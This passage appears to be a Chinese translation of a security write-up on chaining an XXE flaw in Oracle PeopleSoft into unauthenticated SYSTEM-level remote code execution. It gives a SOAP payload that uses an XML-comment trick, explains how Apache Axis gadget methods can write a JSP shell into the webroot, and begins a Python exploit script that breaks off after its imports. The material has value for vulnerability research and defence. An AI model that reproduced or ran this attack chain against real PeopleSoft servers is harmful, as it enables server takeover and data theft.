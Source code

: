 ```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Body&gt;
        &lt;!--&gt;&lt;myMethod attr="x"&gt;&lt;test&gt;y&lt;/test&gt;&lt;/myMethod&gt;
        &lt;/!--&gt;&lt;myMethod attr="x"&gt;&lt;test&gt;y&lt;/test&gt;&lt;/myMethod&gt;
    &lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

由于我们添加的前缀`!--&gt;`，第一个有效载荷便是`&lt;!--XML`开始，这是XML注释的开始。第二行开头`&lt;/!`接着是`--&gt;`，是 注释的结束。因此第一行被忽略，我们的有效载荷现在只被解释一次。

由此，我们可以将任何来自POST的SOAP请求转换为GET，这意味着我们可以将任何类作为`Axis`服务部署,使用XXE绕过IP检查。



## Axis:Gadgets

Apache Axis不允许我们在部署它们时上传我们自己的Java类; 因此我们必须与已有的漏洞结合。在PeopleSoft的包含了`Axis`实例的pspc.war中进行了一些研究之后，发现在org.apache.pluto.portalImpl包的类有一些有趣的方法。首先，addToEntityReg(String[] args)允许我们在XML文件的末尾添加任意数据。其次，copy(file1, file2)允许我们在任何地方使用复制。这足以获得一个shell，通过在我们的XML中插入一个JSP负载，并将其复制到`webroot`中。

如预期的那样，它作为SYSTEM运行，导致未经身份验证的远程系统攻击，仅来自XXE。

[![](https://p2.ssl.qhimg.com/t01ae1f00f7f5f04bc4.png)](https://p2.ssl.qhimg.com/t01ae1f00f7f5f04bc4.png)



## 利用

这个利用向量对于每个最近的PeopleSoft版本应该或多或少是通用的。XXE端点只需要修改。

```
#!/usr/bin/python3
# Oracle PeopleSoft SYSTEM RCE
# https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce
# cf
# 2017-05-17

import requests
import urllib.parse
import re
import string
import random
import sys


from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


try:
    import colorama
except ImportError:
    colorama = None
else:
    colorama.init()

    COLORS = `{`
        '+': colorama.Fore.GREEN,
        '-': colorama.Fore.RED,
        ':': colorama.Fore.BLUE,
        '!': colorama.Fore.YELLOW
```